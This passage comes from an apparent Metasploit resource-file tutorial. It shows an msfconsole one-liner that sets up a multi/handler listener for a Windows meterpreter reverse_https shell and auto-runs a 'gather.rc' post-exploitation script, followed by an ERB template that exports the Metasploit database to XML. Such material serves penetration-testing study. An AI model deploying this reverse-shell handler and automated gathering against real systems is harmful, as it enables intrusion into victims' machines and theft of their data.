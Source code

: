 <br /><br />

- **[in Handler]::AutoRunScript::OneLiner::**`[msfconsole prompt]`<br />
<blockquote>The easy way to reproduce this is: execute one multi/handler with the 'AutoRunScript' flag executing @darkoperator 'multi_console_command' script with the -rc argument pointing to the absoluct path of our gather.rc script. That will execute our gather.rc (auto-running our resource script automatically at session creation).</blockquote>

      sudo msfconsole -x 'use exploit/multi/handler; set LHOST 192.168.1.71; set LPORT 666; set PAYLOAD windows/meterpreter/reverse_https; set AutoRunScript multi_console_command -rc /root/gather.rc; exploit'

![gif](http://i67.tinypic.com/20aotfr.gif)

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

---

<br /><br /><br />

## USING RUBY IN RC (ERB scripting)
<blockquote>ERB is a way to embed Ruby code directly into a document. This allow us to call APIs that are not exposed<br />via console commands and to programmatically generate and return a list of commands based on their own logic.<br />Basically ERB scripting its the same thing that writing a metasploit module from scratch using "ruby" programing language and some knowledge of metasploit API calls.</blockquote>

Open your text editor and copy/past the follow ruby (erb) code to it, save file and name it as: **template.rc**
```
<ruby>
   help = %Q|
    Description:
       This Metasploit RC file can be used to automate the exploitation process.
       In this example we are just checking msfdb connection status, list database
       hosts, services and export the contents of database to template.xml local file.

    Author:
       r00t-3xp10it  <pedroubuntu10[at]gmail.com>
    |
    print_line(help)
    Rex::sleep(1.5)

       print_good("checking database connection")
       Rex::sleep(2)
       run_single("db_status")
       print_good("checking database sevices")
       Rex::sleep(2)
       run_single("services")
       print_good("checking database hosts")
       Rex::sleep(2)
       run_single("hosts")

    print_warning("exporting database to: template.xml")
    Rex::sleep(1.5)
    run_single("db_export -f xml template.xml")
</ruby>
```
**[in terminal]::Run the script:** `msfconsole -r /root/template.rc`
